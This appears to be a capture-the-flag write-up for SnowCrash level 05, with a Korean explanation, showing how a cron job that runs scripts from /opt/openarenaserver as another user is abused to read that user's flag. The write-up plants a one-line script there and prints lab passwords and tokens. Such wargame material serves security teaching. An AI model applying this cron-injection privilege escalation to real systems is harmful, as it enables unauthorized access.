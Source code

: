 ## Level 05

Login as usual with a password

```
ssh -i ~/.ssh/id_rsa.pub level05@127.0.0.1 -p 4242
ne2searoevaevoem4ov4ar8ap
```

We got a message when we just logged in as "You have new mail."

```
🧼 ➜  ~ ssh -i ~/.ssh/id_rsa.pub level05@127.0.0.1 -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15 fec0::30be:dfbf:f703:ee2 fec0::89b:22ff:fef1:29df
level05@127.0.0.1's password:
You have new mail.
level05@SnowCrash:~$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile
```

So, I found the small hint from /var/mail/level05

```
level05@SnowCrash:/$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

So, I was looking for /usr/sbin/openarenaserver and we found a script as below. Let's found out one by one.

```
level05@SnowCrash:/$ cat /usr/sbin/openarenaserver
#!/bin/sh

# Loop through files in the  vdirectory
for i in /opt/openarenaserver/* ; do

    # Set a CPU time limit of 5 seconds for each script execution
	(ulimit -t 5; bash -x "$i")
        # Remove the executed script file
	rm -f "$i"
done
```

> So, the script goes through each file in the specified directory, sets a CPU time limit of 5 seconds for its execution, executes the script with debugging output, and then removes the script file.

We can't and should not put anything inside **/opt/openarenaserver** because this directory will be deleted in every 2 minutes, so we should put our file safely in tmp file.

**We therefore, need to create a bash script in that directory,to get the file and to make sure that the optut is redirected to a file in /tmp. So, the overall effect of this command is to create a file named getflag05 in the /opt/openarenaserver/ directory.**

```
level05@SnowCrash:/usr/sbin$ echo 'getflag > /tmp/flag05' > /opt/openarenaserver/getflag05
level05@SnowCrash:/usr/sbin$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

> **note** : echo 'getflag > /tmp/flag05' : This echoes the string to the standard output. The string contains a command that redirectes the output of the getflag command to a file located at /tmp/flag05

> /opt/openarenaserver/getflag05 : This redirects the standard output of the echo command to a file located at /opt/openarenaserver/getflag05 This file will be created or overwritten with the echoed string

<details>
  <summary> Details in Korean </summary>
  > `echo 'getflag > /tmp/flag05' > /opt/openarenaserver/getflag05`: 이 명령은 `'getflag > /tmp/flag05'`라는 문자열을 `/opt/openarenaserver/getflag05` 파일에 씁니다. 여기서 `getflag > /tmp/flag05`는 `/tmp/flag05` 파일로 `getflag` 명령의 출력을 리다이렉트하도록 하는 명령입니다.

> **즉 따라서 이 한 줄은 "컴퓨터야, 'getflag'라는 명령을 실행해서 그 결과를 `/tmp/flag05`라는 파일에 저장한 다음, 그 파일을 `/opt/openarenaserver/` 디렉토리에 `getflag05`라는 이름으로 적어놔!"라고 컴퓨터에게 말하는 것이에요.**

`echo 'getflag > /tmp/flag05' > /opt/openarenaserver/getflag05` 명령에서 리다이렉션은 두 단계로 이루어집니다.

1. `echo 'getflag > /tmp/flag05'`: 이 부분에서 `echo` 명령은 단순히 문자열 `'getflag > /tmp/flag05'`을 터미널에 출력합니다. 이때 `>`가 나타나는 것은 파일이나 디렉토리에 쓰기를 하라는 의미가 아니라, `echo` 명령의 출력이 터미널에 나가도록 하는 역할을 합니다.

2. `> /opt/openarenaserver/getflag05`: 이 부분에서 리다이렉션이 일어납니다. 이 부분은 터미널에 나가는 출력을 파일 `/opt/openarenaserver/getflag05`에 쓰기라는 의미입니다. 즉, 이 부분에서 `echo`의 출력이 `/opt/openarenaserver/getflag05` 파일로 저장됩니다.

결론적으로, 먼저 `echo` 명령이 실행되고 그 출력이 터미널에 나가다가, 그 출력을 `/opt/openarenaserver/getflag05` 파일로 리다이렉션됩니다.

  </details>

<details>
  <summary> Password </summary>
  viuaaale9huek52boumoomioc
  </details>
